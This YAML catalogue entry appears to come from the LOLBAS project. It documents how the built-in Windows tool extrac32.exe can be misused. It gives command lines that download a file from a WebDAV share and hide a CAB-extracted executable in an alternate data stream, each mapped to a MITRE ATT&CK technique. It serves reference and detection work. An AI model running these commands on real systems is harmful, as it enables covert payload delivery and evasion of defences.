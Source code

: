 ```yaml
---
name: Extrac32.exe
description: 
functions:
  download:
    - description: Copy the source file to the destination file and overwrite it.
      code: extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Download file from UNC/WEBDav
  ads:
    - description: Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.
      code: extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
      mitreid: T1096
      mitrelink: https://attack.mitre.org/wiki/Technique/T1096
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Extract data from cab file and hide it in an alternate data stream.
    - description: Extracts the source CAB file on an unc path into an Alternate Data Stream (ADS) of the target file.
      code: extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe
      mitreid: T1096
      mitrelink: https://attack.mitre.org/wiki/Technique/T1096
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Extract data from cab file and hide it in an alternate data stream.
resources:
    - resource: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
    - resource: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
    - resource: https://twitter.com/egre55/status/985994639202283520
fullpath:
    - path: C:\Windows\System32\extrac32.exe
    - path: C:\Windows\SysWOW64\extrac32.exe
detection:
  - IOC: 
acknowledgement:
  - Person: egre55
    Handle: '@egre55'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

